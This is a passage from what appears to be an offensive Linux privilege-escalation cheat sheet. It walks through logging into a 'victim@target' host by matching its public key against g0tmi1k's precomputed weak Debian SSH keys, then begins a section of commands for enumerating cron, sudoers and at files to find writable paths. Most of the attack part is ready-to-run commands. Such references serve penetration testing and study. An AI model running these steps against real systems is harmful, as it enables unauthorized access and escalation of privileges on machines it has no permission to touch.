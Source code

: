 ```
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshs_config
/etc/init.d/ssh restart
```

3. Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

```
git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh
tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```

4. Grab the first 20 or 30 bytes from the key file shown above starting with the `"AAAA..."` portion and grep the unpacked keys with it as:

```
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'
dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub
```

5. IF SUCCESSFUL, this will return a file (68b329da9893e34099c7d8ad5cb9c940-17934.pub) public file. To use the private key file to connect, drop the '.pub' extension and do:

```
ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934
```

And you should connect without requiring a password. If stuck, the `-vvv` verbosity should provide enough details as to why.

## Scheduled tasks

### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```
